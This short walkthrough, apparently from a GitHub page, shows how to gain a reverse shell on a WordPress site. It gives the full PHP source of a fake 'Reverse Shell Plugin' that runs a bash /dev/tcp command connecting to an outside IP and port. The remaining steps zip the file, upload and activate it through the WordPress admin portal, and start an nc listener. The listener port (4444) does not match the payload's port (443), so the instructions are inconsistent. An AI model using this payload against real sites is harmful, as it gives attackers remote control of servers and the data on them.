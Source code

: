 1) Create the revsh-plugin.php and change the ip and port accordingly
```
<?php

/**
* Plugin Name: Reverse Shell Plugin
* Plugin URI:
* Description: Reverse Shell Plugin
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.86.99/443 0>&1'");
?>
```
2) zip the revsh-plugin.php in kali `zip revsh-plugin.zip revsh-plugin.php`
3) Go to the WPPortal and login to upload the plugin
4) Start listener at Kali `nc -nvlp 4444`
5) Click 'Activate' Button to start the reverse shell.

More info at: https://sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell
